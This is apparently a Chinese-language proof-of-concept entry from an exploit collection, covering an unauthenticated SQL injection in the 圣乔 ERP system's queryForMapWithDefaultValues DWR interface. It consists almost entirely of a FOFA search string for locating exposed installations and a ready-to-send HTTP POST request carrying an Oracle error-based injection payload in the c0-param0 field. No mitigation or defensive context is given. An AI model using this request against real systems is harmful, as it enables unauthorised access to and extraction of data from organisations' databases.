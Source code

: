 # 圣乔ERP系统queryForMapWithDefaultValues存在SQL注入漏洞

圣乔ERP系统 queryForMapWithDefaultValues接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息

## fofa

```javascript
title="圣乔ERP系统"
```

## poc

```javascript
POST /erp/dwr/call/plaincall/ResultSetConvertor.queryForMapWithDefaultValues.dwr HTTP/1.1
Host: 
Content-Type: text/plain
Priority: u=0
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

callCount=1
page=/erp/dwr/test/ResultSetConvertor
httpSessionId=
scriptSessionId=B4C02555EA992FF3A73F3CCA60389809871
c0-scriptName=ResultSetConvertor
c0-methodName=queryForMapWithDefaultValues
c0-id=0
c0-param0=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(106)||CHR(122)||CHR(122)||CHR(113)||(SELECT (CASE WHEN (99=99) THEN 1 ELSE 0 END) FROM DUAL)||CHR(113)||CHR(118)||CHR(122)||CHR(118)||CHR(113)||CHR(62))) FROM DUAL)
c0-param1=Array:[]
batchId=4
```

